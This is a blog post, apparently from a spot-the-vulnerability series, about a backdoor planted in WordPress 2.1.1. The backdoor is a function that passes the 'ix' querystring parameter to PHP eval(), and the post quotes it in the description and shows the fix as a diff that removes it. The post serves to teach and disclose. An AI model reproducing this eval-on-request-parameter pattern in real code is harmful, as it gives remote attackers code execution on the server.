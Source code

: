 ```yaml
---
layout: post
title: Impact - Command Injection
tags:
- Code Snippet
- PHP
- Privilege Escalation
- Solution
- Wordpress
status: publish
type: post
published: true
meta:
  aktt_notify_twitter: 'yes'
  _aktt_hash_meta: ! '#code #development'
  _edit_last: '2'
  aktt_tweeted: '1'
  _sexybookmarks_shortUrl: http://bit.ly/bvG37F
  _sexybookmarks_permaHash: 705d5cdc2aa46c7aebd4f8b0e67e70ba
---
```

## Details
__Affected Software:__ WordPress

__Fixed in Version:__  2.1.1

__Issue Type:__ Command Injection

Original Code: <a title="Impact" href="http://spotthevuln.com/2010/01/impact/" target="_blank">Found Here</a>
## Description
This example was actually a backdoor someone had planted in WordPress 2.1.1.  Apparently, someone either broke into the wordpress server or hacked a wordpress dev account and inserted this back door.  The back door was simple, create a function which simply calls eval on a arguments passed to it.  The attacker named this function "comment_text_phpfilter()" and the contents of the function are provided below:
<blockquote>function comment_text_phpfilter($filterdata) {
eval($filterdata);
}</blockquote>
Several lines later, the attacker planted a mechanism to call the backdoor.  In this case, the attacker checked for the presense of the "ix" parameter being passed via the querystring.  If the "ix" querystring parameter was present, the value assigned to "ix" would be passed to "comment_text_phpfilter()", which would pass the attacker supplied value to eval().
<blockquote>if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }</blockquote>
## Developers Solution
[cce lang="diff"]

function comment_author_rss() {
echo get_comment_author_rss();
}

-function comment_text_phpfilter($filterdata) {
-eval($filterdata);
-}

function comment_text_rss() {
$comment_text = get_comment_text();
$comment_text = apply_filters('comment_text_rss', $comment_text);
echo $comment_text;
}

function comments_rss_link($link_text = 'Comments RSS', $commentsrssfilename = '') {
$url = comments_rss($commentsrssfilename);
echo "&lt;a href='$url'&gt;$link_text&lt;/a&gt;";
}

...

function get_category_rss_link($echo = false, $cat_ID, $category_nicename) {
$permalink_structure = get_option('permalink_structure');

if ( '' == $permalink_structure ) {
$link = get_option('home') . '?feed=rss2&amp;amp;cat=' . $cat_ID;
} else {
$link = get_category_link($cat_ID);
$link = $link . "feed/";
}

$link = apply_filters('category_feed_link', $link);

if ( $echo )
echo $link;
return $link;
}

-if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }

function get_the_category_rss($type = 'rss') {
$categories = get_the_category();
$the_list = '';
foreach ( (array) $categories as $category ) {
$category-&gt;cat_name = convert_chars($category-&gt;cat_name);
if ( 'rdf' == $type )
$the_list .= "\n\t\t&lt;dc:subject&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/dc:subject&gt;\n";
else
$the_list .= "\n\t\t&lt;category&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/category&gt;\n";
}
return apply_filters('the_category_rss', $the_list, $type);
}

[/cce] 
